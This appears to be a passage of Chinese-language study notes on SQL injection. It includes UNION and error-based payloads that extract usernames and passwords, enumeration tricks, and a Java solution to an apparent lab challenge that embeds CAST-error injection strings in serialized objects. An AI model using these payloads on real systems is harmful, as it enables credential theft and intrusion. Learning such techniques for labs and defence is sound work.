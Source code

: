 3. 开始注入，比如从users表里读取username和password的信息,可以通过||'~'||连接，这样只要找到一个输出字符串的列即可

   ```sql
   ' UNION SELECT username, password FROM users--
   ```

   

**奇技**

1. limit 1,1 用于语句后，显示查询到的数据中，从第1行开始（有第0行,这个是列名），往后1条结果的数据，用于绕过PHP的显示的方式
2. group_concat(name)将所有查询到的列名以逗号的方式拼接起来返回
3. database()内置函数，返回当前数据库的名称
4. %20 空格 %23#
5. 利用报错的信息，来返回结果，updatexml(1,select pwd from users,1)  PHP
5. 需要判断注入点是字符串型注入，还是直接注入，比如观察id=2和id=3-1是否一致，一致就是直接注入



攻击流程：

1. 确认数据库类型
2. 确认感兴趣的数据库表名，列名
3. 开始注入 **见注入过程**
   1. 明注
   2. 盲注

实战：反序列化章节第一个专家难度

```java
class Main {
    public static void main(String[] args) throws Exception {
       	//测试列数量，测试列的类型，利用cast 报错机制来查看反馈，假设已经成功 8个列，第4列需是int类型
        // 测试库名。输出 users
         ProductTemplate originalObject=new ProductTemplate("'UNION SELECT  NULL, NULL,NULL, CAST(table_name AS numeric), NULL, NULL, NULL, NULL from information_schema.tables--");
      	//测试库名的含有的列名 输出 username
         ProductTemplate originalObject=new ProductTemplate("'UNION SELECT  NULL, NULL,NULL, CAST(column_name AS numeric), NULL, NULL, NULL, NULL from information_schema.columns WHERE table_name = 'users'--");
      //因为cast在第一行的时候就做了转换然后报错，所以需要条件判断
         ProductTemplate originalObject=new ProductTemplate("'UNION SELECT  NULL, NULL,NULL, CAST(column_name AS numeric), NULL, NULL, NULL, NULL from information_schema.columns WHERE table_name = 'users' offset 2 limit 1--");  useless
      //输出 password 
      	ProductTemplate originalObject=new ProductTemplate("'UNION SELECT  NULL, NULL,NULL, CAST(column_name AS numeric), NULL, NULL, NULL, NULL from information_schema.columns WHERE table_name = 'users' and column_name!='username'--");
      //用类似的方法，查看所有的username,然后根据信息输出密码，这里简写了
				ProductTemplate originalObject=new ProductTemplate("'UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users--");
        
    }
}

注入点：
  String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);

```
